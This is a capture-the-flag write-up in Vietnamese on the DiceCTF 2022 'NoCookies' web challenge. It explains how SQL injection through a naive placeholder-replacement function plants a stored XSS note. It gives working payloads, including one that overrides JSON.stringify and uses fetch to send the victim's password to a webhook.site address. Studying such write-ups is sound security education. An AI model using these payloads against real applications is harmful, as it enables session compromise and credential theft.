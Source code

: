 ```yaml
---
title: NoCookies - DiceCTF2022
description: From DiceCTF2022
author: to^
date: 2022-04-08 13:07:00 +0700
categories: [WebSec, CTF]
tags: [sqli, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: no_cookies/dicectf_logo.jpg
 alt: DiceCTF logo
 width: 1000
 height: 400
---
```

## _Link challenge_
<https://instancer.mc.ax/no-cookies>

<https://admin-bot.mc.ax/no-cookies>

## _Source code_
[Download](https://github.com/to016/to016.github.io/raw/main/assets/img/no_cookies/no-cookies.zip)

## _Sơ lược về trang web_
![overview](no_cookies/overview.png)
_overview_

- Sẽ có 2 chức năng: Register -> đăng kí account và create note -> tạo note
- Hoạt động không dựa trên cookie mà yêu cầu ta nhập lại username, password mỗi lần thực hiện một hành động nào đó.

Ở phần Create Note thì ta có 2 tùy chọn là Markdown hoặc là Plain.
![Create note](no_cookies/md_pl.png)
_create note option_

## _Phân tích_
### 1. XSS qua markdown option
Đọc qua source code thì thấy phần lớn các trang view.html, register.html đều thuộc dạng client side rendering
![markdown note handler](no_cookies/md_handler.png)
_markdown note hander_

Điều đáng chú ý ở đoạn code này là nếu note nhập vào có dạng `[blabla](test)` thì sẽ return thẻ a: 
`<a href = "test">blabla</a>`
Từ đây có thể dễ dàng khai thác XSS: ta dùng 2 thuộc tính autofocus và onfocus để trigger nó
```
<a href ="test" autofocus onfocus= "alert`1">
```
Điều đáng buồn là khi tạo note:
`(foo)[http://example.com" autofocus=autofocus onfocus="alert(password&#x29;]`
(ở đây escape `)` trở thành `&#x29;` để cho regex không làm mất đi `)` )
Gửi note và ấn view xuất hiện pop-up `undefined` 😟

Quay lại source code thấy rằng `const password`, được định nghĩa trong một anonymous arrow function và đoạn code được thực thi bên ngoài nó (đến từ HTML event handler)

Nhìn lại source, để ý cách validate password:
```js
const validate = (text) => {
return /^[^$']+$/.test(text ?? '');
}
```
Chỉ đơn giản là kiểm tra sao cho phải có tối thiểu 1 kí tự và không tồn tại `'` hoặc `$`
Mình tìm được một thứ thú vụ về [Regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input). Đại khái là: `RegExp.input` hoặc `RegExp.$_` sẽ trả về chuỗi match với regular expression.

Ví dụ:
```js
var re = /hi/g;
re.test('hi there!');
RegExp.input; // "hi there!"
re.test('foo'); // new test, non-matching
RegExp.$_; // "hi there!"
re.test('hi world!'); // new test, matching
RegExp.$_; // "hi world!"
```

Nhưng tất cả những `.replace()` call từ markdown parsing đã làm thay đổi giá trị của nó (overiding the password) vì vậy không thể khai thác thông qua markdown note -> chỉ còn lại con đường plain note.
### 2. XSS qua plain option
![database handler code1](no_cookies/db_handler1.png)
_database handler code1_

![database handler code2](no_cookies/db_handler2.png)
_database handler code2_

Ta có thể thấy trước khi chèn vào DB, note bị replace `<` và `>` gây khó khăn cho việc khai thác.

Nhưng `prepare function` đã giải quyết vấn đề này, hàm này đơn giản chỉ là replace **lần lượt** `:id, :username, :note, :mode` thành các giá trị tương ứng với nó.
```
{
id: "12345",
username: ":note",
note: ', :mode, 22, 0)-- ',
mode: '<img src=x onerror="alert(RegExp.input)">',
}
```

![sqli poc](no_cookies/sqli.png)
_sqli poc_

## _Khai thác_
![reponse](no_cookies/response.png)
_response_

![result](no_cookies/result.png)
_result_



## _Overwrite "document.querySelector" và "JSON.stringify"_
ở phần này mình sẽ đề cập tới một cách khai thác khác.

Cách này thì vẫn vận dụng sqli như cách trước để chèn xss note vào db nhưng khác ở chỗ xss note sẽ là:
```html
<svg><svg/onload="document.querySelector=function(){JSON.stringify=a=>fetch(`https://webhook.site/1e6c4248-b312-498b-93c3-073ffc762693?`+a.password),arguments.callee.caller()}">
```
Code này thực hiện việc rewrite lại hàm `document.querySelector` và `JSON.stringify`, sau đó gọi `arguments.callee.caller()`

![Exploit](no_cookies/exp.png)

- Line 59 thực hiện gán `innerHTML = Plain note` của ta đồng thời kích hoạt `onload` event của `svg` thực hiện việc ghi đè hàm `document.querySelector`.
- Line 60 gọi tới `document.querySelector` (lúc này là hàm mà ta đã định nghĩa lại): thực hiện ghi đè hàm 
`JSON.stringify` và đồng thời gọi tới `arguments.callee.caller()`.
- Có thể hiểu arguments.callee là chỉ hàm hiện tại đang thực thi -> `document.querySelector` và `arguments.callee.caller()` là hàm gọi tới nó, chính là cái `async ()` bao trọn tất cả code. Hay nói cách khác mục đích của `arguments.callee.caller()` là để chạy lại đoạn code từ 24 – 62 một lần nữa. Lúc này `JSON.stringify` nhận vào một object bao gồm password sẽ thực hiện fetch tới web hook của ta và boom flag!

> dice{curr3nt_st4t3_0f_j4v45cr1pt}
{: .prompt-info  }

## _Tham khảo_
<https://blog.bawolff.net/2022/02/write-up-for-dicectf-2022-nocookies.html>
